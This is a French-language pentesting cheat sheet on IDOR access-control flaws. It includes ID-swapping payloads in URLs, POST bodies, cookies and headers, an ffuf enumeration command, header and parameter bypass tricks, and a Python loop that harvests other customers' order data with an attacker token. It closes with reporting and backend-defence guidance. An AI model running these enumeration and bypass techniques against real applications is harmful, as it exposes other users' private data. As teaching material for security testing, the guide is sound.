

Ce document détaille les méthodologies d'exploitation des vulnérabilités de type **Insecure Direct Object Reference (IDOR)**, en complément des concepts abordés dans **Burp Suite**, **Enumeration** et les attaques **Web Application Attacks**.



## Théorie et Définition

Une **IDOR** se produit lorsqu’une application autorise l'accès à une ressource (fichier, profil, commande) en se basant uniquement sur un identifiant fourni par l’utilisateur, sans vérifier si cet utilisateur possède les droits d'accès requis. Le problème réside dans l'absence de contrôle d'accès **backend** robuste.

### Exemples de ressources vulnérables
- Fichiers : `/download?file=123.pdf`
- Profils : `/user/127`
- Commandes : `/orders/54321`
- Tickets : `/support?id=321`
- API REST : `/api/user/127/settings`

## Types d’IDOR

| Type d’IDOR | Exemple | Objectif |
| :--- | :--- | :--- |
| **Lecture** | Lire les données d’un autre utilisateur | Accès non autorisé |
| **Écriture** | Modifier une ressource d’un autre user | Escalade d’accès |
| **Suppression** | Supprimer un objet qui ne t’appartient pas | Impact destructif |
| **Création liée** | Associer des données à un autre user | Injection d’information |

## Payloads & Scénarios d’Exploitation

### Modifications dans l’URL
```http
GET /profile?id=122     → change to id=121
GET /document/4152      → change to /document/4151
```

### Paramètres POST
```http
POST /api/changeEmail
{
  "user_id": "127",
  "email": "attacker@evil.com"
}
→ change user_id à 126, 125...
```

### Cookie ou JWT
```http
Cookie: session=eyJ1c2VyX2lkIjoxMjN9 → modifier user_id
```

### Headers
```http
X-User-ID: 123   → tester d'autres ID
```

### Champs masqués HTML
```html
<input type="hidden" name="user_id" value="123">
→ changer dans l'inspecteur
```

## Techniques d’Identification (Recon)

### Repérer les identifiants
- ID numériques incrémentaux.
- UUID ou hash visibles dans URL, cookies ou réponses JSON.
- Réponses contenant des données sensibles (email, nom).

### Enumération des IDs
```bash
ffuf -u https://target/user/FUZZ -w ids.txt
```

> [!warning] Attention au blocage IP lors de l'énumération massive avec Intruder ou ffuf

## Analyse de la logique métier (Business Logic)

L'analyse consiste à identifier les points de rupture dans le flux de données. Il faut vérifier si l'application effectue une validation **côté serveur** (Server-Side Access Control) ou si elle se repose uniquement sur la confiance accordée au client.

- **Flux de validation** : Vérifier si le serveur vérifie la relation entre `SessionID` et `ResourceID` dans la base de données.
- **Paramètres masqués** : Rechercher des paramètres non documentés dans les requêtes API (ex: `user_id`, `account_id`, `role_id`) qui pourraient être injectés pour modifier le contexte de la requête.

## Techniques de contournement (Bypass)

- **Paramètres additionnels** : Ajouter des paramètres de debug ou de filtrage (ex: `&admin=true`, `&debug=true`, `&role=admin`).
- **Headers de debug** : Tester des headers permettant de manipuler le routage ou l'authentification (ex: `X-Original-URL`, `X-Rewrite-URL`, `X-Forwarded-For`, `X-Custom-IP-Authorization`).
- **Changement de méthode HTTP** : Si le serveur rejette une requête `GET`, tenter de passer en `POST`, `PUT` ou `PATCH` pour forcer une logique métier différente.
- **Encodage/Double Encodage** : Tenter d'encoder les IDs (Base64, URL encoding) pour contourner des WAF ou des filtres de validation d'entrée.

> [!tip] Vérifier systématiquement les headers de session (JWT, Cookies) avant de tenter l'IDOR

## Automatisation avancée

L'automatisation via des scripts **Python** permet de gérer dynamiquement les sessions et de comparer les réponses entre deux utilisateurs distincts.

```python
import requests

# Session de l'attaquant
headers = {"Authorization": "Bearer <TOKEN_ATTAQUANT>"}
base_url = "https://target/api/orders/"

for i in range(100, 200):
    r = requests.get(f"{base_url}{i}", headers=headers)
    # Comparaison de la réponse pour détecter une fuite de données
    if r.status_code == 200 and "customer_name" in r.text:
        print(f"[+] IDOR potentielle détectée sur ID: {i}")
        print(f"Contenu: {r.json()}")
```

## Outils utiles

### Burp Suite
- **Intruder** : Bruteforce d’identifiants.
- **Comparer** : Détection de changements subtils.
- **Repeater** : Test manuel des IDs.

### Autorize
- Détecte automatiquement les IDOR.
- Utilise un cookie admin et un cookie user pour tester les autorisations.

> [!tip] Privilégier l'extension Autorize pour tester les accès croisés entre deux comptes de privilèges différents

## Exemples Réels

| Endpoint | IDOR ? | Explication |
| :--- | :--- | :--- |
| `/invoice/122` | ✅ | Si 122 appartient à un autre client |
| `/api/user/modify?id=44` | ✅ | Peut modifier un autre profil |
| `/settings/email` | ❌ | Pas vulnérable (lié au token uniquement) |
| `/profile?id=me` | ❌ | Sécurisé (pas d’ID brut) |

## Reporting et preuves de concept (PoC)

Un PoC doit être reproductible et démontrer l'impact métier.

1. **Description** : Expliquer clairement le chemin d'accès non autorisé.
2. **Étapes de reproduction** :
   - Authentification en tant qu'utilisateur A.
   - Capture de la requête légitime.
   - Modification de l'identifiant pour cibler l'utilisateur B.
3. **Preuve** : Inclure les captures d'écran des requêtes/réponses (HTTP Raw) montrant les données privées de l'utilisateur B.
4. **Impact** : Préciser si cela permet une fuite de données (PII), une modification non autorisée ou une escalade de privilèges.

## Défense & Prévention

### Bonnes pratiques
- Ne jamais faire confiance aux identifiants utilisateur fournis par le client.
- Appliquer un contrôle d’autorisation côté serveur.
- Utiliser des ID non devinables (**UUID**, hashes avec salt).
- Implémenter le **Principle of Least Privilege (PoLP)**.

### Exemple de contrôle côté backend
```python
# Vérification côté serveur obligatoire
if request.user.id != object.owner_id:
    return 403 # Forbidden
```